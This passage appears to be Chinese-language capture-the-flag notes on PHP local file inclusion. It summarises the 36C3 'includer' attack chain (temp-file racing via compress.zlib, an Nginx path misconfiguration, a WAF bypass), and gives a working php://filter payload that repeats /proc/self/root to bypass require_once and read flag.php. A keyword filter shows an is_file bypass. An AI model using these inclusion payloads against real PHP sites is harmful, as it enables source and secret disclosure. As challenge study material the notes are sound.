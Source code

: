 主要作用是:`compress.zip://`上传文件的话，可以保持http长链接竞争保存临时文件。当然	我们也可以上传大文件来增长产生临时文件的时间。

看看这个题(includer)：https://blog.zeddyu.info/2020/01/08/36c3-web/#get-flag

思路很好，利用点就是

>1. 利用 `compress.zlib://http://`or`compress.zlib://ftp://` 来上传任意文件，并保持 HTTP 长链接竞争保存我们的临时文件
>2. 利用超长的 name 溢出 output buffer 得到 sandbox 路径
>3. 利用 Nginx 配置错误，通过 `.well-known../files/sandbox/`来获取我们 tmp 文件的文件名
>4. 发送另一个请求包含我们的 tmp 文件，此时并没有 PHP 代码
>5. 绕过 WAF 判断后，发送 PHP 代码段，包含我们的 PHP 代码拿到 Flag

## Nginx中的技巧生成临时文件

原理：

>- Nginx 在后端 Fastcgi 响应过大 或 请求正文 body 过大时会产生临时文件
>- 通过多重链接绕过 PHP LFI stat 限制完成 LFI

从中还介绍了利用`/proc/self/fd`来找到进程下删除的文件



[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235#h3-7)

利用`多次重复 / proc/self/root 绕过`

```php
<?php
error_reporting(E_ALL);
require_once('flag.php');
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    require_once($content);
} //题目的代码来自WMCTF2020 make php great again 2.0 绕过require_once是预期解
```

payload

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

//result PD9waHAKCiRmbGFnPSJ0ZXN0e30iOwo=
```

也可以绕过`is_file`

```php
function filter($file){
    if(preg_match('/\.\.\/|http|filter|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
